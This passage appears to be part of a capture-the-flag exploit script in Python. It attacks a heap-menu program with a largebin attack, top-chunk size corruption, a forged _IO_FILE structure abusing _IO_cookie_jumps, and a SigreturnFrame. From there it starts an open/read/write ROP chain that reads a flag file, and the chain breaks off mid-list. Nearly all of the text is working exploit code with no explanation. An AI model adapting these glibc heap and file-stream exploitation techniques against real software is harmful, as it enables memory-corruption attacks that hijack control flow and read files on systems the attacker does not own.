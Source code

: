 ```python
    add(0, 0x410)
    add(2, 0x420)
    run_opcode()

    # largebin attack guard
    delete(2)
    add(6, 0x430)
    delete(0)
    edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
    add(7, 0x450)
    edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
    edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
    add(2, 0x420)
    add(0, 0x410)

    # change top chunk size
    delete(7)
    add(8, 0x430)
    edit(7, 'a' * 0x438 + p64(0x300))
    run_opcode()

    next_chain = 0
    srop_addr = heap_base + 0x2ae0 + 0x10
    fake_IO_FILE = 2 * p64(0)
    fake_IO_FILE += p64(0)  # _IO_write_base = 0
    fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
    fake_IO_FILE += p64(0)
    fake_IO_FILE += p64(0)  # _IO_buf_base
    fake_IO_FILE += p64(0)  # _IO_buf_end
    fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\\x00')
    fake_IO_FILE += p64(next_chain)  # _chain
    fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\\x00')
    fake_IO_FILE += p64(heap_base)  # _lock = writable address
    fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\\x00')
    fake_IO_FILE += p64(0)  # _mode = 0
    fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\\x00')
    fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
    fake_IO_FILE += p64(srop_addr)  # rdi
    fake_IO_FILE += p64(0)
    fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

    fake_frame_addr = srop_addr
    frame = SigreturnFrame()
    frame.rdi = fake_frame_addr + 0xF8
    frame.rsi = 0
    frame.rdx = 0x100
    frame.rsp = fake_frame_addr + 0xF8 + 0x10
    frame.rip = pop_rdi_addr + 1  # : ret

    rop_data = [
        pop_rax_addr,  # sys_open('flag', 0)
        2,
        syscall_addr,

        pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
        0,
        pop_rdi_addr,
        3,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_addr,

        pop_rax_addr,  # sys_write(1, heap, 0x100)
```